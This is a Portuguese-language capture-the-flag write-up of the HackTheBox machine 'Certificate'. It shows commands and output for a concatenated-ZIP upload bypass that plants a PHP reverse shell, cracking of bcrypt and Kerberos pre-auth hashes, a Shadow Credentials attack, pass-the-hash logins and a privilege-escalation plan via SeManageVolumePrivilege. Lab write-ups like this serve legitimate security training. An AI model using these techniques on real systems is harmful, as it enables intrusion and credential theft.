

# Subtítulo da horinha

![[Certificate.png | descrição da imagem]]

## Introdução

Olá mundo! Sejam bem vindos à mais uma aventura na minha jornada no mundo da cibersegurança. Hoje vamos falar sobre Certificate, uma máquina classificada como de dificuldade difícil no Hackthebox. 

Em `Certificate` nós temos um` Windows Active Directory` com um website. Esse website é vulnerável ao ataque `Concatenated Zip File Upload` e, após obter as credenciais da usuária `Sara.B`, conseguimos logar no servidor via `Winrm`. Um arquivo `pcap` é então encontrado na pasta de documentos, onde podemos extrair a hash `krb5pa` do usuário `Lion.SK` e quebrá-la com `John The Ripper`. Usando os privilégios `GenericAll` de `Sara.B`, também podemos obter a `hash NT` do usuário `Ryan.K` por meio de um ataque `Shadow Credentials`. Por fim, conseguimos acesso de administrador depois de explorar os privilégios `SeManageVolumePrivilege` do usuário `Ryan.K`, para ter acesso à Raiz Certificadora ou `Root CA` e forjar um certificado de autenticação falso em nome do usuário `Administrator`.

Dito isso, sem mais demora, vamos começar!

---

## Reconhecimento

### Nmap

O resultado do NMAP mostrou que se tratava de um ` Windows Active Directory`. 

```bash
PORT STATE SERVICE REASON VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-01 09:49:07Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49730/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Uma coisa interessante é que a porta 80 http estava aberta, revelando uma página web ativa. Adicionei os domínios `DC01.certificate.htb` e `certificate.htb` ao meu arquivo `/etc/hosts` e visitei a página.

### Web

![[Certificate-0.png | Página inicial]]

A página se trata de uma plataforma de cursos online onde podemos fazer alguns cursos, enviar as resoluções de questionários e pegar nosso certificado. Para interagir com as funcionalidades do site, criei uma conta e fiz o login.

![[Certificate-2.png | Página de login]]

Depois de escolher um curso e visitar sua respectiva página, há botões onde podemos enviar as respostas dos questionários por meio de arquivos de extensão `.doc`, `.xlsx` ou `.pdf` comprimidos em formato `zip`. 

![[Certificate-3.png | Página do curso]]

Certamente tentei várias técnicas de bypass para subir uma shell `php`, mas tudo em vão. 

![[Certificate-4.png | Página de erro]]

Foi então que passei a pesquisar mais a respeito de técnicas de `file upload` com arquivos `zip` onde poderia bypassar uma shell e encontrei a técnica chamada `Concatenated Zip`.

> [!info] Concatenated ZIP
> Foi descoberto que certos compressores como `7zip`, podiam abrir arquivos maliciosos enquanto mostrava ao usuário um arquivo comum. A técnica tem esse nome porque nela criamos dois arquivos `zip`: um arquivo` safe.zip` e outro `malicious.zip`. Depois concatenamos os dois arquivos com o comando `cat safe.zip malicious.zip > combined.zip` e geramos um novo arquivo chamado `combined.zip`. Ao descompactar o arquivo `combined.zip` com `7zip`, apenas o arquivo seguro dentro de `safe.zip` é mostrado, mas após a descompactação o arquivo malicioso também estará lá, tendo bypassado as restrições do sistema.

Usando essa técnica criei dois arquivos: Um arquivo `zip` com um `pdf` normal, e outro arquivo `zip` com um diretório chamado shell e minha shell `php` dentro. O diretório é necessário visto que, ao que parece, o arquivo malicioso não é ativado se estiver no diretório padrão do upload. Talvez ele seja apagado por algum script de checagem de arquivos.

```bash
┌──(kali㉿kali)-[~/…/Hackthebox/Hard/Certificate/shell]
└─$ zip pt1.zip Upgrade_Notice.pdf
  adding: Upgrade_Notice.pdf (deflated 24%)
  
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ zip -r shell.zip shell/
  adding: shell/ (stored 0%)
  adding: shell/rev.php (deflated 72%)

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ cat pt1.zip shell.zip > comb.zip

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
```

---
## Acesso Inicial

Depois de upar o arquivo combinado, fui até o caminho `certificate.htb/static/uploads/346f96e85d110b7cfb38fe3b00565313/shell/rev.php` e obtive minha conexão reversa com o servidor.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.185] from (UNKNOWN) [10.129.202.33] 51620
SOCKET: Shell has connected! PID: 3712
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\certificate.htb\static\uploads\346f96e85d110b7cfb38fe3b00565313\shell>whoami
certificate\xamppuser
```

Já dentro do servidor, verifiquei se haviam outros usuários. Isso me permitiria criar uma lista para fazer `Password Spray` se necessário.

```bash
C:\xampp\htdocs\certificate.htb\static\uploads\346f96e85d110b7cfb38fe3b00565313\shell>net user

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            akeder.kh                Alex.D
Aya.W                    Eva.F                    Guest
John.C                   Kai.X                    kara.m
karol.s                  krbtgt                   Lion.SK
Maya.K                   Nya.S                    Ryan.K
saad.m                   Sara.B                   xamppuser
The command completed successfully.
```

### Banco de dados

Haviam vários usuários nesse domínio, então talvez algum desses estivesse no banco de dados dos cursos online, como professores ou alunos. Verificando o arquivo db.php, encontrei as credenciais `certificate_webapp_user : cert!f!c@teDBPWD`. No entanto não consegui logar no `Mysql` com essas credenciais. Então procurei mais um pouco e encontrei o arquivo `passwords.txt`.

```bash
c:\xampp>type passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)
   
<SNIPED>
```

Com as novas credenciais consegui encontrar a hash da usuária `Sara.B`, que possui privilégios administrativos.

```bash
c:\xampp\mysql\bin>mysql.exe -u root -e "SHOW DATABASES;"
Database
certificate_webapp_db
information_schema
mysql
performance_schema
phpmyadmin
test

c:\xampp\mysql\bin>mysql.exe -u root -e "USE certificate_webapp_db;SHOW TABLES;"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses

c:\xampp\mysql\bin>mysql.exe -u root -e "USE certificate_webapp_db;SELECT * FROM users;"
id      first_name      last_name       username        email   password        created_at      role    is_active
1       Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10     teacher       1
6       Sara    Laracrof        Sara1200        sara1200@gmail.com      $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11     teacher       1
7       John    Wood    Johney  johny009@mail.com       $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18     student 1
8       Havok   Watterson       havokww havokww@hotmail.com     $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04     teacher 1
9       Steven  Roman   stev    steven@yahoo.com        $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05     student 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1
12      preacher        fulltime        preacher        preacher@root.htb       $2y$04$ydvboYNWg/L/sxRo97.COuzNJEd4u5vTYFXvZW/IV/qVxRaG89S56    2025-06-03 18:09:26  student  1
```

Usando `John The Ripper`, consegui quebrar a hash facilmente e obter a senha `Blink182`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-sara.b
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)
1g 0:00:00:05 DONE (2025-06-03 15:17) 0.1893g/s 2318p/s 2318c/s 2318C/s addison1..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Arquivo pcap

Depois de logar como `Sara.B` com a ferramenta `Evil-Winrm`, logo encontrei dois arquivos interessantes na pasta` \Documents\WS-01`: Um arquivo chamado `Description.txt` e outro chamado `WS-01_PktMon.pcap`. O arquivo `Description.txt` dizia:

```plaintext
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

Parecia que um problema com a pasta compartilhada `Reports` estava travando o `file explorer`, mas verificando as pastas compartilhadas com as credenciais de `Sara.B` na ferramenta `Netexec`, não havia nenhuma pasta compartilhada com esse nome. Então fiz o download do arquivo `WS-01_PktMon.pcap` para fazer uma investigação das requisições de rede salvas no arquivo.

![[Certificate-5.png | Hash krb5pa encontrada]]

Usando a ferramenta `Wireshark` e filtrando pelo protocolo [[KERBEROS]], pude encontrar um hash `krb5pa`, ou **hash de pré-autenticação Kerberos**. É possível copiar o valor do hash e montar usando a página do Hashcat. Mas eu uso `John The Ripper`, então tive que extrair de outro jeito. Primeiro, usei a ferramenta `Tshark` para extrair somente os pacotes de informação referentes ao protocolo `Kerberos` e salvar em um arquivo `data.pdml`. Em seguida, usei a ferramenta `krb2john` para extrair a hash `krb5pa` desse arquivo.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ tshark -2 -r WS-01_PktMon.pcap -R "tcp.dstport==88 or udp.dstport==88" -T pdml >> data.pdml

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ krb2john data.pdml
[-] Hash might be broken, etype != 23 and salt not found!
Lion.SK:$krb5pa$18$Lion.SK$CERTIFICATE$$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ vim hash-Lion.SK                     # Change $CERTIFICATE$ to $CERTIFICATE.HTB$ 
```

Depois disso, usei o `John The Ripper` para quebrar a hash e obter a senha `!QAZ2wsx`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash-Lion.SK
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "krb5pa-sha1", but the string is also recognized as "HMAC-SHA512"
Use the "--format=HMAC-SHA512" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5pa-sha1, Kerberos 5 AS-REQ Pre-Auth etype 17/18 [PBKDF2-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (Lion.SK)
1g 0:00:00:12 DONE (2025-06-03 19:42) 0.07968g/s 1121p/s 1121c/s 1121C/s goodman..doghouse
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Shell como Lion.SK

Usando novamente a ferramenta `Evil-Winrm`, fiz o login como `Lion.SK` e peguei a flag de usuário.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ evil-winrm -i certificate.htb -u 'Lion.SK' -p '!QAZ2wsx'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> cd C:\Users\Lion.SK\desktop
*Evil-WinRM* PS C:\Users\Lion.SK\desktop> ls


    Directory: C:\Users\Lion.SK\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/3/2025  10:43 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Lion.SK\desktop> cat user.txt
12357f9562abcdb0c40e5593f91f7312
```

---

## Escalação de Privilégios

Usando a ferramenta `Bloodhound-Python` do `Netexec`, fiz a enumeração de objetos do AD. Então, usando meu script criado com chatGPT verifiquei as **ACLs** dos usuários. Com base nos resultados, verifiquei que a usuária `Sara.B` tinha privilégios demais. Na época do lançamento desta máquina, `Sara.B` pertencia ao grupos `HR` e `Account Operators`. Este último grupo tendo o privilégio `GenericAll`  sobre todos os outros usuários e grupos, exceto usuário e grupos Administrators.

Usando os privilégios de `Sara.B`, eu obtive a `hash NT` do usuário `Ryan.K` por meio de um ataque `Shadow Credentials`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ faketime "$(ntpdate -q DC01.certificate.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -u sara.b@certificate.htb -p Blink182 -account Ryan.K
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Ryan.K'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'cc773185-6021-0750-cc6d-cfdc4fb218e2'
[*] Adding Key Credential with device ID 'cc773185-6021-0750-cc6d-cfdc4fb218e2' to the Key Credentials for 'Ryan.K'
[*] Successfully added Key Credential with device ID 'cc773185-6021-0750-cc6d-cfdc4fb218e2' to the Key Credentials for 'Ryan.K'
[*] Authenticating as 'Ryan.K' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Restoring the old Key Credentials for 'Ryan.K'
[*] Successfully restored the old Key Credentials for 'Ryan.K'
[*] NT hash for 'Ryan.K': b1bc3d70e70f4f36b1509a65ae1a2ae6
```

Usando a técnica `Pass-the-hash` com `Evil-Winrm`, consegui me logar como `Ryan.K`. Olhando os privilégios desse usuário, percebi que ele possuía o privilégio `SeManageVolumePrivilege`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Hard/Certificate]
└─$ evil-winrm -i certificate.htb -u 'Ryan.K' -H 'b1bc3d70e70f4f36b1509a65ae1a2ae6'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> ls
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami
certificate\ryan.k
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
*Evil-WinRM* PS C:\Users\Ryan.K\Documents>
```

Pesquisando sobre `SeManageVolumePrivilege`, descobri que havia um exploit público que abusava desse privilégio. Ele dá a todos os usuários permissões sobre o inteiro disco `C:\`. Após executar o exploit, era só copiar uma DLL maliciosa chamada `Printconfig.dll` para `C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll`, para substituir o arquivo original. Por fim, era só iniciar o objeto `PrintNotify` e receber a shell reversa como `NT AUTHORITY SYSTEM`. 

O plano parecia perfeito, mas só parecia. Na realidade, toda tentativa de conexão reversa era bloqueada pelo `Windows Defender` e, a partir daí me lembrei que estava em uma máquina difícil e coisas como simplesmente subir uma shell e rodá-la estava fora de questão. No entanto, nem tudo estava perdido.

Por um momento me lembrei que o nome da máquina é Certificate e que até então, eu não havia explorado nenhuma falha referente a certificados. Então, usando o comando `certutil -Store My`, chequei se havia certificados pessoais usados pelo usuário `Ryan.K`. Felizmente, encontrei a **Raiz Certificadora** , ou `Root CA`, que poderia ser usada para gerar um certificado confiável, que poderia servir de base para forjar um certificado em nome do `Administrator`.

## Conclusão

![[CertificateFinal.png | descrição da imagem]]

Palavras finais sobre o que aprendeu e CTA.



Você pode usar links internos: [[outra-nota]]
E inserir imagens: ![[imagem.png | descrição da imagem]]
Ou blocos de código:

```bash
echo "Exemplo de comando"
```
